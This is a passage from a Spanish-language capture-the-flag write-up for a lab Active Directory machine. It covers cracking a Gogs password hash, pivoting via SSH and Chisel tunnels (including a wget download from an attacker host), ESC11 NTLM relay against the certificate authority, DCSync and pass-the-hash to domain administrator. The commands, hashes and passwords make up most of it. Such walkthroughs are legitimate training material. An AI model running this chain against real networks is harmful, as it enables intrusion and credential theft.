## Conversión del hash al formato de hashcat

Usamos **GogsToHashcat** para convertir el hash al formato que hashcat entiende (modo 10900):

URL = [GogsToHashcat GitHub](https://github.com/shinris3n/GogsToHashcat)

```bash
python3 GogsToHashcat.py -o hash "DW3YdxPy25" "8d9b3a01c3a0260b39db011aed1dbf239b8b1b28af6141f28aa01d3b3ab8ffd4408bc5b9065ff957e716375a7bec1755d3e8"
```

Resultado:

```
sha256:10000:RFczWWR4UHkyNQ==:jZs6AcOgJgs52wEa7R2/I5uLGyivYUHyiqAdOzq4/9RAi8W5Bl/5V+cWN1p77BdV0+g=
Hash file successfully written as: hash
```
## Reducción del diccionario por política de contraseñas

Recordamos la política encontrada en `passpol.pdf`: mínimo 20 caracteres, con complejidad activada. Aunque parece una contraseña fuerte, esta política reduce drásticamente el número de candidatas en rockyou.txt:

```bash
awk 'length >= 20' /usr/share/wordlists/rockyou.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' > rockyou_filtered.txt
echo "[+] $(wc -l < rockyou_filtered.txt) contraseñas filtradas"
```

Resultado:

```
[+] 1641 contraseñas filtradas
```

De más de 14 millones de entradas en rockyou.txt, solo 1.641 cumplen con la política. Esto hace el crackeo de PBKDF2 (normalmente muy lento) completamente viable:
## Crackeo del hash con hashcat

```bash
hashcat -m 10900 hash rockyou_filtered.txt --force
```

Resultado:

```
sha256:10000:RFczWWR4UHkyNQ==:...:u47YUclrDiwWxBheaSzI

Status: Cracked
Time.Started: Thu Jul 16 15:04:58 2026 (0 secs)
```

La contraseña de `nvirelli` es `u47YUclrDiwWxBheaSzI`.
## Pivote a nvirelli

Desde la shell de `git` escalamos a `nvirelli`:

```bash
su nvirelli
# Contraseña: u47YUclrDiwWxBheaSzI
```

Resultado:

```
nvirelli@gpz-op26-toolkits:/opt/gogs$ whoami
nvirelli
```

Leemos la flag del usuario:

> user.txt

```
4f45ebb71a02c6876706d9bbcf563a3f
```
# Escalate Privileges

<figure><figcaption></figcaption></figure>

## Construcción del túnel SOCKS hacia la red interna

Estamos en el servidor `gpz-op26-toolkits` con IP `172.16.20.20` en la red interna. Para poder lanzar herramientas de AD desde nuestra máquina atacante contra el DC (`10.129.71.85`), necesitamos enrutar el tráfico a través de un túnel SOCKS.

El plan es en dos pasos:

1. SSH local port forwarding desde `nvirelli` a `172.16.20.20:2222` → crea SOCKS5 en `127.0.0.1:1080` del servidor.
2. Chisel reverse desde el servidor → expone ese SOCKS5 en nuestra máquina atacante.

```bash
# Paso 1: SSH tunnel local en la máquina víctima
ssh -D 1080 -N -f nvirelli@172.16.20.20 -p 2222
# Contraseña: u47YUclrDiwWxBheaSzI
```

```bash
# Paso 2: Descargar Chisel y transferirlo a la víctima
gzip -d chisel_1.11.8_linux_amd64.gz
mv chisel_1.11.8_linux_amd64 chisel && chmod +x chisel
python3 -m http.server 80

# En la máquina víctima:
wget http://<IP_ATTACKER>/chisel && chmod +x chisel
```

```bash
# Paso 2: Chisel server en el atacante
./chisel server -p 9999 --reverse

# Chisel client en la víctima (tuneliza el SOCKS5 local hacia el atacante)
./chisel client <IP_ATTACKER>:9999 R:1080:127.0.0.1:1080
```

Verificamos:

```bash
ss -tuln | grep "1080"
```

Resultado:

```
tcp   LISTEN 0   4096   *:1080   *:*
```

El SOCKS5 está disponible en nuestra máquina en el puerto `1080`. Todo el tráfico proxychains irá a través del servidor interno y de ahí al DC.
## Enumeración de certificados vulnerables con certipy-ad

Con el túnel activo, ejecutamos certipy-ad a través de proxychains para enumerar la infraestructura de certificados del dominio:

```bash
proxychains4 -q certipy-ad find -u 'nvirelli@ghostlink.htb' -p 'u47YUclrDiwWxBheaSzI' \
  -dc-ip <IP_VICTIM> -dns-tcp -timeout 10 -vulnerable -stdout
```

Del output identificamos la vulnerabilidad crítica:

```
Certificate Authorities
  CA Name: ghostlink-GPZ-OP26-SECURE-CA
  DNS Name: gpz-op26-secure.ghostlink.htb
  [!] Vulnerabilities
    ESC8  : Web Enrollment is enabled over HTTP.
    ESC11 : Encryption is not enforced for ICPR (RPC) requests.
```

**ESC11** es nuestra vía de ataque. La CA no exige cifrado en las peticiones RPC (ICPR), lo que permite interceptar y reenviar autenticaciones NTLM directamente al servicio de certificados. Si coercionamos al DC para que se autentique y hacemos relay sobre ICPR, obtenemos un certificado firmado de la cuenta de máquina `DC01$`, que a su vez nos permite extraer su hash NT y realizar DCSync.
## ESC11: NTLM Relay sobre ICPR

Lanzamos ntlmrelayx apuntando al servicio RPC de la CA en la IP interna `172.16.20.10`:

```bash
proxychains4 -q impacket-ntlmrelayx \
  -t rpc://172.16.20.10 \
  -rpc-mode ICPR \
  -icpr-ca-name 'ghostlink-GPZ-OP26-SECURE-CA' \
  --template User \
  -smb2support
```

Con el relay a la escucha, usamos **coercer** para forzar al DC a que se autentique contra nuestra máquina, desencadenando el relay hacia la CA:

```bash
proxychains4 -q coercer coerce \
  -t dc01.ghostlink.htb \
  -u nvirelli \
  -p 'u47YUclrDiwWxBheaSzI' \
  -d ghostlink.htb \
  -l <IP_ATTACKER>
```

En el relay vemos:

```
[*] (RPC): Authenticating connection from GHOSTLINK/DC01$@10.129.71.85 against rpc://172.16.20.10 SUCCEED [1]
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> Generating CSR...
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> Successfully requested certificate
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> Writing PKCS#12 certificate to ./DC01.pfx
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> Certificate successfully written to file
```
## Extracción del hash NT de DC01$ con el certificado

Sincronizamos el reloj con el DC (Kerberos rechaza tickets con más de 5 minutos de diferencia) y usamos certipy-ad para autenticarnos con el certificado y obtener el hash NT de `DC01$`:

```bash
sudo ntpdate -u <IP_VICTIM>

certipy-ad auth -pfx DC01.pfx -dc-ip <IP_VICTIM> -domain ghostlink.htb
```

Resultado:

```
[*] Using principal: 'dc01$@ghostlink.htb'
[*] Got TGT
[*] Got hash for 'dc01$@ghostlink.htb': aad3b435b51404eeaad3b435b51404ee:6c1bd4ae55673852429a59f025d068b2
```
## DCSync con el hash de DC01$

Con el hash NT de la cuenta de máquina del DC podemos realizar **DCSync**, que simula el proceso de replicación entre Domain Controllers y vuelca todos los hashes del dominio:

```bash
impacket-secretsdump ghostlink.htb/DC01\$@<IP_VICTIM> -hashes :6c1bd4ae55673852429a59f025d068b2
```

Del dump extraemos el hash NT del Administrator:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8190e067f478002ddd63eb209b016696:::
```
## Pass-The-Hash como Administrator

```bash
evil-winrm -i <IP_VICTIM> -u Administrator -H 8190e067f478002ddd63eb209b016696
```

Resultado:

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
ghostlink\administrator
```

Ya somos `Administrator` del dominio. Leemos la flag final:

> root.txt

```
4da5ab6be3555747e63109a4eba6406e
```

